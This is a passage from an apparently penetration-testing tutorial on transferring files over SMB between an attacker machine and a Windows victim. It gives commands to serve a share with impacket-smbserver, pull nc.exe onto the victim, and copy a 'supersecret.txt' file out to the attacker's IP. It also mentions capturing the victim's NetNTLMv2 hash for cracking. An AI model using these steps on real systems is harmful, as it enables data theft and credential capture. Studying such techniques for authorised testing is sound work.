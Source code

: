 ![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-160.png)

## **Transferring Files to and from Attacker’s SMB Server**

## **Setting up the SMB Server on the Attacker Machine**

There is an excellent script that can be used to fire up a quick SMB share on our attacker machine called **impacket-smbserver**, which is part of the **[Impacket](https://github.com/SecureAuthCorp/impacket)** Suit of Tools.

From a directory where the tools / files you want to transfer to the victim are located, use the following command to turn that directory into a share:

```
impacket-smbserver hax $(pwd) -smb2support
```

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-161.png)

> Here we created a share folder named **hax** and started it from a directory housing two files: nc.exe and launcher.bat

With the SMB share all setup, we can begin transferring files to and from our attacker machine very easily.

## **Transferring Files from Attacker’s SMB Server onto Victim**

To copy a file from our attacker share to the victim, use the following command:

```
copy \\172.16.1.30\hax\nc.exe C:\temp\nc.exe
```

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-162.png)

And back on our attacker machine, we can see the victim checked in. A cool thing about this technique is that we also get a copy of the users NetNTLMv2 hash. We could crack this hash and get a plaintext password if we managed to get our foothold leveraging an exploit that did not require knowledge of the users password.

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-163.png)

## **Transferring Files to Attacker’s SMB Server from Victim**

Similarly, we can copy files from the victim to our attacker machine by reversing the command:

```
copy C:\temp\supersecret.txt \\172.16.1.30\hax\supersecret.txt
```

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-164.png)
